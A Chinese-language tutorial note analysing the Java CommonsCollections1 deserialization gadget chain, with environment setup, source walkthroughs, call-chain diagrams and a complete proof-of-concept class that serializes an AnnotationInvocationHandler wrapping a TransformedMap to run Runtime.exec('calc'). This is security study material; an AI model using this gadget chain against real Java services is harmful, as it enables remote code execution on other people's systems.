








### 反序列化条件：

```
 入口类实现了序列化接口并且重写了readObject函数。实现序列化接口的类才能被Java序列化和反序列化，重写readObject方法才有可能执行到危险方法。否则无法调起和执行其他代码，更无从谈起利用。
```

重写 readobject

接受任意对象对参数



### 环境部署：参考

【【Java 反序列化链】CommonsCollections1 深入浅出，详细分析（cc1 链）】 [https://www.bilibili.com/video/BV1A1421q7zj/?share_source=copy_web&vd_source=eb0c1f37b1525dbedbee1594dce9ac23](https://www.bilibili.com/video/BV1A1421q7zj/?share_source=copy_web&vd_source=eb0c1f37b1525dbedbee1594dce9ac23)

- JDK8u65
- Openjdk download:[https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4)
- CC1 链依赖 Apache Commons Collections 3.x 系列（存在漏洞的版本）。推荐 3.2.1

[https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1](https://mvnrepository.com/artifact/commons-collections/commons-collections/3.2.1)

maven 依赖

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
</dependency>
```

### **CommonCollections 之 TransformMap 利用链分析**

CC1 链 的核心思想：把命令执行通过反射 → InvokerTransformer → ChainedTransformer 层层封装，最终变成一个可以序列化传输的"恶意对象"。

漏洞的执行点是 Transformer 类的 transform 方法，Transformer 是 Commons Collections 中定义的一个函数式接口：

```
// org.apache.commons.collections.Transformer
public interface Transformer {
    public Object transform(Object input);
}
```

作用：接受一个对象，返回一个转换后的对象。这是整条链的核心执行单元。漏洞的执行点就是 Transformer 的 transform 方法。找到哪些类实现了 Transformer 接口并且实现了 transform 方法，就是寻找利用链的起步。



找到 InvokerTransformer 类,InvokerTransformer 是整条链中最核心的危险类，它能通过反射调用任意对象的任意方法：

```typescript
// org.apache.commons.collections.functors.InvokerTransformer
public class InvokerTransformer implements Transformer, Serializable {

    private final String iMethodName;     // 方法名
    private final Class[] iParamTypes;    // 参数类型数组
    private final Object[] iArgs;         // 参数值数组

    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        this.iMethodName = methodName;
        this.iParamTypes = paramTypes;
        this.iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) return null;
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);  // ① 反射获取方法
            return method.invoke(input, iArgs);                       // ② 反射调用方法
        } catch (Exception ex) {
            // ...
        }
    }
}
```

`InvokerTransformer` 是一个 Transformer 实现，它的 transform 通过反射调用指定对象的方法。

危险的使用示例

```java
// 创建一个能执行任意命令的Transformer
InvokerTransformer transformer = new InvokerTransformer(
    "exec",                       // 方法名
    new Class[]{String.class},    // 参数类型
    new Object[]{"calc.exe"}      // 参数值
);

// 如果input是Runtime实例，就能执行命令
Runtime runtime = Runtime.getRuntime();
transformer.transform(runtime);  // 这将执行: runtime.exec("calc.exe")
```



这里的调用逻辑如下

```typescript
// 当transform被调用时：
public Object transform(Object input) {
    // input 是 Runtime.class
    Method method = cls.getMethod(iMethodName, iParamTypes);
_    // 执行 cls.getMethod("exec", String.class)_
    _// 这会在Runtime类中查找：_
    _//   方法名：exec_
    _//   参数类型：1个String类型的参数_Method method = cls.getMethod("exec", String.class);
    _// 返回：public Process java.lang.Runtime.exec(String command)_
    return method.invoke(input, iArgs);
    _// 等价于：runtime.exec("calc.exe")_
}
```

目标是执行 Runtime.getRuntime().exec("calc")，Runtime 的构造器是 private 的，不能直接 new Runtime()。只能通过 Runtime.getRuntime() 这个静态方法获取实例。

- **java 反射**

反射就是一种"用字符串来调用方法"的能力。

```java
Class c = Runtime.class;                              // ① 获取 Runtime 的 Class 对象
Method getRuntimemethod = c.getMethod("getRuntime", null); // ② 获取 getRuntime 这个静态方法
Runtime r = (Runtime) getRuntimemethod.invoke(null, null);  // ③ 调用它，拿到 Runtime 实例
r.exec("calc");                                        // ④ 执行系统命令（弹计算器）
```

- **用 InvokerTransformer 包装反射**

InvokerTransformer 是 Apache Commons Collections 库提供的一个类，它实现了 Transformer 接口。其核心功能是：

> 对传入的对象，通过反射调用指定的方法，并返回结果。

```
new InvokerTransformer(
    String methodName,      // 要调用的方法名
    Class[] paramTypes,     // 方法参数类型数组
    Object[] args           // 方法实际参数数组
)
```

第 1 步：获取 getRuntime 方法

```cpp
new InvokerTransformer(
    "getMethod",                           // 调用 Runtime.class 的 "getMethod" 方法
    new Class[]{String.class, Class[].class}, // getMethod 的参数类型：(String, Class[])
    new Object[]{"getRuntime", null}        // 实际参数："getRuntime", null
).transform(Runtime.class);
// 等价于：Runtime.class.getMethod("getRuntime", null)
// 返回值：Method 对象（指向 Runtime.getRuntime()）
```

第 2 步：调用 getRuntime() 拿到 Runtime 实例

```javascript
new InvokerTransformer(
    "invoke",                                // 调用 Method 对象的 "invoke" 方法
    new Class[]{Object.class, Object[].class}, // invoke 的参数类型：(Object, Object[])
    new Object[]{null, null}                  // 静态方法，所以对象和参数都是 null
).transform(getRuntimemethod);
// 等价于：getRuntimemethod.invoke(null, null)
// 返回值：Runtime 实例
```

第 3 步：执行命令

```javascript
new InvokerTransformer(
    "exec",                        // 调用 Runtime 实例的 "exec" 方法
    new Class[]{String.class},     // exec 的参数类型：String
    new Object[]{"calc"}           // 实际参数："calc"（打开计算器）
).transform(r);
// 等价于：r.exec("calc")
```

为什么第 ① 步不直接 transform(Runtime.getRuntime())？ 因为在反序列化链中我们无法直接获得 Runtime 实例。Runtime 的构造器是 private 的，只能通过 Runtime.getRuntime() 静态方法获取。而静态方法的调用也必须通过反射完成，所以需要先拿到 Method 对象再 invoke。

- **用 ChainedTransformer 串成链**

```typescript
_// org.apache.commons.collections.functors.ChainedTransformer_
public class ChainedTransformer implements Transformer, Serializable {

    private final Transformer[] iTransformers;

    public ChainedTransformer(Transformer[] _transformers_) {
        this.iTransformers = transformers;
    }

    public Object transform(Object _object_) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);  _// 前一个的输出 = 后一个的输入_
        }
        return object;
    }
}
```

将多个 Transformer 串成一条流水线

```javascript
Transformer[] transformers = new Transformer[]{
    // 第1个：Runtime.class → Method(getRuntime)
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
    // 第2个：Method(getRuntime) → Runtime实例
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
    // 第3个：Runtime实例 → exec("calc")
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};

ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);  // 只需传入起点，自动链式执行
```

数据流：

```
任意输入
  │  ConstantTransformer → Runtime.class
  │  InvokerTransformer  → Method(getRuntime)
  │  InvokerTransformer  → Runtime 实例
  │  InvokerTransformer  → Process (exec 返回值)
  ▼
命令执行完毕
```

解决了 Runtime.getRuntime().exec();反序列化调用，回到 CC1 漏洞链路。

至此找到了，恶意代码执行的“最后一步”，继续向前查找，查找 transform 的调用类



transformMap.java 中找到

```php
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

TransformedMap 是 Commons Collections 中的一个 Map 装饰器，它包装了一个普通 Map，在执行 put、setValue 等操作时，会自动对 key/value 进行 transform 转换。

```javascript
// 创建 TransformedMap
HashMap<Object, Object> innerMap = new HashMap<>();
innerMap.put("value", "anything");
Map<Object, Object> transformedMap = TransformedMap.decorate(
    innerMap,            // 被装饰的原始 Map
    null,                // keyTransformer（不需要，传 null）
    chainedTransformer   // valueTransformer ← 这就是我们的攻击链！
);
```

现在要想办法让 valueTransformer 赋值为 `InvokerTransformer` 对象，并将 value 传参为 Runtime.class。

但是发现其构造函数是 protected 属性，不能从外面调用

```php
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    super(map);
    this.keyTransformer = keyTransformer;
    this.valueTransformer = valueTransformer;
}
```

继续深入分析，发现一个修饰函数

```typescript
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

这里就会从类里调用 TransformedMap，通过调用 decorate 类来初始化

```
HashMap<Object,Object> map = new HashMap<>();
TransformedMap.decorate(map , null ,invokerTransformer);
```

给 TransformedMap 类的 valueTransformer 赋值为 invokerTransformer。

解决了 TransformedMap 类中 checkSetValue 函数下 `return valueTransformer.transform(value);` 中 `valueTransformer` 的赋值问题，继续分析 checkSetValue 的调用。



这里 AbstractInputCheckedMapDecorator 是 TransformedMap 的抽象类。

继承关系与装饰器模式

```
java.util.Map (接口)
  ↑
AbstractMapDecorator (implements Map)
  │  持有一个 Map map 字段（被装饰的原始 Map）
  │  所有方法默认委托给 map
  ↑
AbstractInputCheckedMapDecorator
  │  重写了 entrySet()，返回包装过的 EntrySet
  │  定义了抽象方法 checkSetValue()
  │  内部类 MapEntry 在 setValue 时调用 checkSetValue
  ↑
TransformedMap
  │  实现了 checkSetValue()
  │  在其中调用 valueTransformer.transform(value)
```

#### setValue → checkSetValue → transform 的完整调用链

第 ① 步：transformedMap.entrySet() 返回包装过的 EntrySet

```typescript
// AbstractInputCheckedMapDecorator.java
public Set entrySet() {
    if (isSetValueChecking()) {
        return new EntrySet(map.entrySet(), this);
        //                                  ^^^^ 把自己（TransformedMap）传进去
    } else {
        return map.entrySet();
    }
}
```

第 ② 步：遍历时每个 entry 被包装成 MapEntry

```typescript
// AbstractInputCheckedMapDecorator.EntrySetIterator
static class EntrySetIterator extends AbstractIteratorDecorator {
    private final AbstractInputCheckedMapDecorator parent;

    public Object next() {
        Map.Entry entry = (Map.Entry) iterator.next();
        return new MapEntry(entry, parent);  // ← 包装！
    }
}
```

第 ③ 步：MapEntry.setValue() 拦截并调用 checkSetValue()

```typescript
// AbstractInputCheckedMapDecorator.MapEntry
static class MapEntry extends AbstractMapEntryDecorator {
    private final AbstractInputCheckedMapDecorator parent;

    protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
        super(entry);
        this.parent = parent;
    }

    public Object setValue(Object value) {
        value = parent.checkSetValue(value);  // ← 关键拦截点！
        return entry.setValue(value);
    }
}
```

第 ④ 步：TransformedMap.checkSetValue() 调用 transform

```typescript
// TransformedMap.java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value);
    //     ^^^^^^^^^^^^^^^^ 就是我们传入的 chainedTransformer！
}
```

下断点测试 setvalue 执行情况

```
Map<Object , Object> transformedMap =  TransformedMap.decorate(map , null ,invokerTransformer);
for (Map.Entry entry:transformedMap.entrySet()){
    entry.setValue(r);
}
```

Tips：

`Map.Entry` 是 Map 接口的内部接口，代表一个键值对实体：

```
// Entry接口的主要方法
public interface Entry<K, V> {
    K getKey();        // 获取键
    V getValue();      // 获取值
    V setValue(V value); // 设置新值
}

// 使用示例
for (Map.Entry entry : map.entrySet()) {
    Object key = entry.getKey();        // 获取当前键
    Object value = entry.getValue();    // 获取当前值
    entry.setValue(newValue);            // 修改当前值
}
```

分析 setValue 的调用



sun/reflect/annotation/AnnotationInvocationHandler.java 中重写了 readObject 函数。

分析一下这个类



属性是 default，需要在 `package sun.reflect.annotation;` 这个包下面才能调用，考虑反射调用。

```
Class a = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor ctor = a.getDeclaredConstructor(Class.class, Map.class);
ctor.setAccessible(true);  _// 绕过访问限制_
Object o = ctor.newInstance(Target.class, transformedMap);
```

利用 ChainedTransformer 实现 runtime 的反序列化调用，这里下断点分析

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.jupiter.api.Test;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

import static java.lang.Character.getName;


public class CC1Test {
    public static void main(String[] Args) throws Exception {
//        Runtime r =Runtime.getRuntime();
//        InvokerTransformer invokerTransformer = new InvokerTransformer(
//                "exec",
//                new Class[]{String.class},
//                new Object[]{"calc"}
//        );
////        invokerTransformer.transform(r);
//        Method getRuntimemethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null , null}).transform(getRuntimemethod);
//        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
//        Class c = Runtime.class;
////        Method getRuntimemethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimemethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        Transformer[] transformers = new Transformer[]{
                
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null , null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("key","value");
        Map<Object , Object> transformedMap =  TransformedMap.decorate(map , null ,chainedTransformer);
//        for (Map.Entry entry:transformedMap.entrySet()){
//            entry.setValue(r);
//        }

        Class a = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor  annotationinvocatorhandlerconstructor = a.getDeclaredConstructor(Class.class , Map.class);
        annotationinvocatorhandlerconstructor.setAccessible(true);
        Object o = annotationinvocatorhandlerconstructor.newInstance(Override.class , transformedMap);
        serialize(o);
        unserialize("ser.bin");


    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```



这里 membertype 为 null，无法走到 setValue，因为传入的 OverWrite 没有属性，Target 存在属性 value

```python
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target(ElementType.ANNOTATION_TYPE)
public @interface Target {
    /**
     * Returns an array of the kinds of elements an annotation type
     * can be applied to.
     * @return an array of the kinds of elements an annotation type
     * can be applied to
     */
    ElementType[] value();
}
```

进入到 `if (memberType != null)` 之后，memberValue.setValue 要赋值

```sql
if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
```

最终的 POC 如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.jupiter.api.Test;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

import static java.lang.Character.getName;


public class CC1Test {
    public static void main(String[] Args) throws Exception {
//        Runtime r =Runtime.getRuntime();
//        InvokerTransformer invokerTransformer = new InvokerTransformer(
//                "exec",
//                new Class[]{String.class},
//                new Object[]{"calc"}
//        );
////        invokerTransformer.transform(r);
//        Method getRuntimemethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null , null}).transform(getRuntimemethod);
//        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);
//        Class c = Runtime.class;
////        Method getRuntimemethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimemethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null , null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
//        chainedTransformer.transform(Runtime.class);

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","value");
        Map<Object , Object> transformedMap =  TransformedMap.decorate(map , null ,chainedTransformer);
//        for (Map.Entry entry:transformedMap.entrySet()){
//            entry.setValue(r);
//        }

        Class a = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor  annotationinvocatorhandlerconstructor = a.getDeclaredConstructor(Class.class , Map.class);
        annotationinvocatorhandlerconstructor.setAccessible(true);
        Object o = annotationinvocatorhandlerconstructor.newInstance(Target.class , transformedMap);
        serialize(o);
        unserialize("ser.bin");


    }
    public static void serialize(Object obj) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

完整的触发链路

```sql
┌─────────────────────────────────────────────────────────────────────┐
│                    反序列化触发（Source）                              │
│  ObjectInputStream.readObject()                                     │
│    → AnnotationInvocationHandler.readObject()                       │
│        memberValues = TransformedMap (攻击者控制)                     │
│        type = Target.class                                          │
│                                                                     │
│        for (entry : memberValues.entrySet())                        │
│            key = "value"                                            │
│            memberType = memberTypes.get("value") = ElementType[]    │
│            memberType != null  ✅                                    │
│            value = "anything", 不是 ElementType[] 实例  ✅            │
│            → entry.setValue(AnnotationTypeMismatchExceptionProxy)    │
├─────────────────────────────────────────────────────────────────────┤
│                    装饰器拦截（Bridge）                               │
│  MapEntry.setValue(value)                                           │
│    → parent.checkSetValue(value)       // parent = TransformedMap   │
│      → valueTransformer.transform(value)                            │
│         // valueTransformer = ChainedTransformer                    │
├─────────────────────────────────────────────────────────────────────┤
│                    链式执行（Sink）                                   │
│  ChainedTransformer.transform(AnnotationTypeMismatchExceptionProxy) │
│                                                                     │
│  [0] ConstantTransformer(Runtime.class)                             │
│       输入: AnnotationTypeMismatchExceptionProxy (无所谓)            │
│       输出: Runtime.class                                           │
│                                                                     │
│  [1] InvokerTransformer("getMethod", ["getRuntime"])                │
│       输入: Runtime.class                                           │
│       执行: Runtime.class.getMethod("getRuntime", null)             │
│       输出: Method 对象                                              │
│                                                                     │
│  [2] InvokerTransformer("invoke", [null, null])                     │
│       输入: Method 对象                                              │
│       执行: method.invoke(null, null)                               │
│       输出: Runtime 实例                                             │
│                                                                     │
│  [3] InvokerTransformer("exec", ["calc"])                           │
│       输入: Runtime 实例                                             │
│       执行: runtime.exec("calc")                                    │
│       输出: Process 对象                                             │
│                                                                     │
│                     💥 calc.exe 启动                                 │
└─────────────────────────────────────────────────────────────────────┘
```

```
ObjectInputStream.readObject()
    AnnotationInvocationHandler.readObject()
        AbstractInputCheckedMapDecorator$MapEntry.setValue()
            TransformedMap.checkSetValue()
                ChainedTransformer.transform()
                    ConstantTransformer.transform()
                    InvokerTransformer.transform()  // getMethod
                    InvokerTransformer.transform()  // invoke
                    InvokerTransformer.transform()  // exec
                        Runtime.exec()
```

Reference:

[https://candyb0x.github.io/2024/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CommonsCollections%E7%AF%87%E4%B9%8BCC1/](https://candyb0x.github.io/2024/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CommonsCollections%E7%AF%87%E4%B9%8BCC1/)

